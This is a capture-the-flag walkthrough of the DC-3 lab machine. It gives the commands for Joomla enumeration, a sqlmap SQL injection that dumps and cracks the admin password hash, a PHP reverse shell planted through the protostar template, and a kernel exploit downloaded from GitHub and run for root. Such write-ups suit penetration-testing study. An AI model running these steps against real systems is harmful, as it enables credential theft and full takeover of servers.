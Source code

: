 # DC - 3

directory enumeration

![](../.gitbook/assets/1111111111111111%20%2814%29.png)

nmap enumeration

![](../.gitbook/assets/1111111111111111%20%284%29.png)

the scan results show a joomla cms:

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2811%29.png)

the admin pannel of joomla is in /administrator directory:

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2814%29.png)

lets enumerate it with joomscan:

```text
joomscan --url http://192.168.56.126 -ec
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2818%29.png)

searchsploit  shows that this version is vulnerable 

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2812%29.png)

lets read the exploit:

```text
cat `locate 42033.txt`
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2813%29.png)

this is a SQLi, we can use sqlmap  as shown in the exploit guide :

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2815%29.png)

we have the databases, lets find the tables:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb --tables
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2819%29.png)

and the coulmns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  --columns
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%284%29.png)

then dump the username and password columns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C username --dump
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2816%29.png)

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C password --dump

```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%283%29.png)

```text
admin
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

save it in this format:

```text
admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

and run john to crack it:

```text
john hash
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%281%29.png)

admin : snoopy

login as admin in the cms admin login page:

{% embed url="http://192.168.56.160/administrator/" %}

![](../.gitbook/assets/aaaaaaaaaaaaa%20%287%29.png)

we have a template named protostart which is known for its vulnerability in joomla platforms \(google search\)

we can use this template to create a php shell on target system:

![](../.gitbook/assets/aaaaaaaaaaaaa.png)

i use pentest monkey reverse php shell :

/usr/share/webshells/php/php-reverse-shell.php

change the ip and port

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2810%29.png)

copy the content of the payload in the file content section:

![](../.gitbook/assets/aaaaaaaaaaaaa%20%285%29.png)

![](../.gitbook/assets/aaaaaaaaaaaaa%20%282%29.png)

now start a netcat listener and open the shell url in the browser:

{% embed url="https://192.168.56.160/templates/protostar/shell.php" %}

![](../.gitbook/assets/aaaaaaaaaaaaa%20%286%29.png)

lets get root:

ubuntu version 16.04

searchsploit ubuntu 16.04 local privilege escalation

![](../.gitbook/assets/aaaaaaaaaaaaa%20%289%29.png)

wget [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip)

unzip 39772.zip

cd 39772

tar xvf exploit.tar

cd ebpf\_mapfd\_doubleput\_exploit/

./compile.sh

./doubleput

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2817%29.png)

![](../.gitbook/assets/aaaaaaaaaaaaa%20%288%29.png)

done !






















